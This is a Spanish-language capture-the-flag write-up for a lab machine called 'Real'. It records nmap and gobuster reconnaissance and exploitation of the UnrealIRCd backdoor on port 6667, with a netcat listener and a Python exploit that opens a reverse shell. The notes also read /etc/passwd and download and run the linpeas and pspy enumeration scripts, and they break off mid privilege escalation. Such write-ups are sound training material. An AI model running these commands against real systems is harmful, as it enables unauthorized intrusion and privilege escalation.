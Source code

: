 #Reconocimiento
#Puerto80
#puerto6667
#reverseshell
#reverseshellpython
#escaladaPrivilegios

## reconocimiento en la red

![[Reconocimiento VulnixReal.png]]

IP Máquina  target: 192.168.1.140
## NMAP

![[Vulnix real nmap discover.png]]
Obtenemos que el epuerto 80 y puerto 22 esán abiertos
Puerto 80 es el puerto para servicio web
Puerto 22 es el puerto de SSH
Puerto 6667  --irc
Puerto 6697  --irc-u
Puerto 8067  --infi-async

Vemos la web que encontramos:

## revision puerto 80


![[Pasted image 20240306235939.png]]
Web es la web de apache 2 por defecto
Hacemos Gobuster para intentar encontrar  diferentes rutas de la web (por si existe algo fuera del index)


![[VulnixReal goobuster.png]]
Pero no encontramos nada
podemos seguir intentando fuzz y gobuster subdomains

De la web no sacamos nada
Pasamos al siguiente puerto 6667

 instantamos explotarlo con metaexploit:
 comandos 
 msfconsole
![[vulnix real msfconsole.png]]

y buscando un poco por internet vemos que es vulnerable con metaexploit: 
https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/
vamos a intentar explotarlo segun lo encontrado

![[searchUnreal vulnix real.png]]


Use 2
![[use2 vulnix real.png]]

Options
![[vulnix real options.png]]

set rhost = IP:
![[set rhjost vulnix real.png]]

set rport  6667

![[set report 6667 vulnix real.png]]

use exploit/unix/irc/unreal_ircd_3281_backdoor
![[vulnix real use exploit irc unreal.png]]

show payloads:
![[show payloads vulnix real.png]]

set payload reverse:
![[set pauload reverse vulnix real.png]]

set lhosts = local IP:
![[setlhost vulnix real.png]]


exploit
![[vulnix real exploit.png]]
but No sessions was created.

Buscando un poco por internet encontramos el repo de github

https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor

descargamos el exploit .py
wget https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/blob/master/exploit.py

![[descargar exploit del repo de github.png]]

Editamos el script en python para poner nuestra IP y el puerto con el que vamos a hacer el reverse proxy:
![[real vulnix script original.png]]


modificamos segun nuestras preferencias:
![[config parameter vulnix real.png]]

en este caso nuestra IP local y el puerto por el cual nos vamos a poner a la escucha que va a ser el 6666

ahora nos ponemos a la escucha en la terminal con  el comando:
nc -lvp 6666

![[vulnix real reverse shell en escucha.png]]

y una vez estamos escuchando por el puerto correcto lo que hacemos es ejecutar el scrip de python para conectar por el puerto 6667 y lanzar una reverse shell sobre nuestra IP por el puerto 6666
python3 exploit.py 192.168.1.140 6667 -payload netcat

![[vulnix - real send exploit.png]]

y en la terminal que estamos a la escucha por el puerto 6666 recibimos la conexión:

![[vulnix - real connection reverse proxy.png]]

Entramos con el usuario serve
![[acceso con user serve vulnix real.png]]


intentamos movernos hasta home/serve  para ver si está la flag del usuario
y conseguimos la primera flag del usuario:
![[vulnix real - user server flag.png]]
user server flag: 3b7fb7c1c8737a5c67dc513657e3efb3


Comando id
![[vulknix real -comando id para ver el usuario.png]]
Con el comando id vemos que el usuario es server 

vemos el passwd en /etc/passwd:
![[vulnix- real -passwd.png]]

server:x:1000:1000:server,,,:/home/server:/bin/bash
aquí vemos que el id de usuario es 1000 e identificador de grupo es 1000 --> Todos los que comienzan con 1000 en LINUX son usuarios

ahora vamos a hacer tratamiento de la TTI:


Tratamiento de la TTI
script /dev/null -c bash
CTRL + Z
stti raw -echo ; fg
reset
xterm
export TERM = xterm-256color
export SHELL = bash
stty -a

Descargamos linpeas:

https://github.com/carlospolop/PEASS-ng/blob/master/linPEAS/README.md
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

le damos permisos de ejecucion al fichero .sh
chmod +x linpeas.sh
ejecutamos linpeas
./linpeas.sh

![[vulnix - real linpeas.png]]

Pero no encontramos nada interesante

Usamos la herramient pspy:
https://github.com/DominicBreuker/pspy
url de descarga:
https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64

le damos permisos de ejecucion
chmod +x pspy64

lo ejecutamos
./pspy64
![[vulnyx - real pspy64.png]]

nos encontramos un fichero que se ejecuta como admisnitrador en /opt/Task
vemos ese fichero:
cat /opt/Task

